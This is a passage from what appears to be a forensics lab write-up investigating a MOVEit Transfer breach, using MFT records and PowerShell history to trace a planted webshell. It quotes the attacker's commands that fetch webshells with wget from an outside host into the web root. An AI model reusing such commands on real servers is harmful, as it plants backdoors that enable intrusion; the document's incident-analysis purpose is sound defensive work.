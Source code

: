 The same can be observer in the CSV. I'll use `cut` to get the file path
and name and timestamps:



    oxdf@hacky$ cat 20231116221516_MFTECmd_\$MFT_Output.csv | cut -d, -f 6-9,20-27 | grep move.aspx
    .\MOVEitTransfer\wwwroot,move.aspx,.aspx,1400,2023-07-12 11:24:30.4297594,,2023-07-12 11:24:30.4610703,2023-07-12 11:24:30.4297594,2023-07-12 11:24:30.4610703,2023-07-12 11:24:30.4297594,2023-07-12 11:24:30.4610703,2023-07-12 11:24:30.4297594
    .\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\9a11d1d0\5debd404,move.aspx.cdcab7d2.compiled,.compiled,294,2023-07-12 11:24:43.3828834,,2023-07-12 11:24:43.3828834,,2023-07-12 11:24:43.3828834,,2023-07-12 11:24:43.3828834,



It's interesting that I find a second file with `move.aspx` in it. This
one, `move.aspx.cdcab7d2.compiled` is where .NET is caching the compiled
ASPX file when it's used. I'll note that the timestamp here of 11:24:43
matches the IIS logs for when the actor first ties to interact with the
webshell.

## PowerShell History

### Locate

There are Powershell history files in both the Administrator and
moveitsvs user's `AppData` directories:



    oxdf@hacky$ find . -name ConsoleHost_history.txt
    Triage/uploads/auto/C%3A/Users/moveitsvc.WIN-LR8T2EF8VHM.002/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
    Triage/uploads/auto/C%3A/Users/Administrator/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt



### Data

The administrator's history only has a single command, `netstat`. The
moveitsvc user's history seems to have captured some of the commands run
by the attacker:



    cd C:\inetpub\wwwroot
    wget http://10.255.254.3:9001/moveit.asp
    dir
    wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp
    dir
    cd C:\MOVEitTransfer\wwwroot
    wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx



So once the actor got execution via the SQL injection, it looks like
they used it to run the PowerShell `wget` command to download both
webshells.
